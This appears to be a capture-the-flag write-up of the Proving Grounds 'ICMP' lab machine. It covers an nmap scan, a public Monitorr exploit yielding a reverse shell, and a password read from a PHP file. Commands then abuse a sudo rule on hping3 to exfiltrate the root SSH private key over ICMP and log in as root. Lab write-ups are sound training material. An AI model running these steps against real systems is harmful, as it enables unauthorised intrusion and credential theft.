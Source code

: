 ```yaml
---
layout: default
title: ICMP
parent: Proving Grounds Play
nav_order: 18
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.226.218
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-11 22:50 EST
Nmap scan report for 192.168.226.218
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 de:b5:23:89:bb:9f:d4:1a:b5:04:53:d0:b7:5c:b0:3f (RSA)
|   256 16:09:14:ea:b9:fa:17:e9:45:39:5e:3b:b4:fd:11:0a (ECDSA)
|_  256 9f:66:5e:71:b9:12:5d:ed:70:5a:4f:5a:8d:0d:65:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-title:             Monitorr            | Monitorr
|_Requested resource was http://192.168.226.218/mon/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.16 seconds

```

# Enumeration

---

## 80 | HTTP

The system appears to be running Monitorr version 1.7.6

![monitorr](../../../assets/images/ctfs/proving_grounds/icmp/monitorr.png)

# Exploitation

---

There is an exploit for this version of Monitorr

![searchsploit](../../../assets/images/ctfs/proving_grounds/icmp/searchsploit.png)

Run the exploit and we get a reverse shell on our netcat listener.

![shell](../../../assets/images/ctfs/proving_grounds/icmp/shell.png)

# Post-Exploitation

---

## Enumerate Users

We find user _fox_.

Looking in _/home/fox_ we find a directory _/devel_ that we cannot access and a file _reminder_ that we can read.

```bash
www-data@icmp:/home/fox$ cat reminder
crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?

```

There is a hint with a file name _crypt.php_.

If we try to access _/devel/crypt.php_ we can read the contents of the file.

```bash
www-data@icmp:/home/fox$ cat ./devel/crypt.php
<?php
echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
?>

```

It looks like we have the unencrypted vesion of the password for _fox_.

If we use that value as a password we can switch to the user _fox_

```bash
www-data@icmp:/home/fox$ su fox
Password:
$ id
uid=1000(fox) gid=1000(fox) groups=1000(fox)

```

## Check Sudo Permissions for User Fox

```bash
$ sudo -l
[sudo] password for fox:
Matching Defaults entries for fox on icmp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on icmp:
    (root) /usr/sbin/hping3 --icmp *
    (root) /usr/bin/killall hping3

```

We can use sudo permissions on _hping3_

Checking GTFOBins for _hping3_ exploits.

![gtfobins](../../../assets/images/ctfs/proving_grounds/icmp/gtfobins.png)

We should be able to use this exploit to send the _root_ user _.ssh/id_rsa_ private key to our attack machine.

```bash
# open a second ssh session as user fox
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ ssh fox@192.168.226.218
$ whoami
fox

# Now listen for hping3 traffic locally on loopback 127.0.0.1

$ sudo hping3 --icmp 127.0.0.1 --listen signature --safe
Warning: Unable to guess the output interface
hping3 listen mode
[main] memlockall(): Success
Warning: can't disable memory paging!

# Finally we send the /root/.ssh/id_rsa private key

$ sudo /usr/sbin/hping3 --icmp 127.0.0.1 -d 100 --sign signature --file /root/.ssh/id_rsa
HPING 127.0.0.1 (lo 127.0.0.1): icmp mode set, 28 headers + 100 data bytes
[main] memlockall(): Success
Warning: can't disable memory paging!
len=128 ip=127.0.0.1 ttl=64 id=9781 icmp_seq=0 rtt=2.6 ms


```

As we can see the file is printed line by line in our second SSH session.

![hping](../../../assets/images/ctfs/proving_grounds/icmp/hping.png)

We now have the private rsa key for the root user and can simply SSH as root

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/icmp]
└─$ ssh -i id_rsa root@192.168.226.218
Linux icmp 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 23 20:18:10 2022
root@icmp:~# id
uid=0(root) gid=0(root) groups=0(root)

```
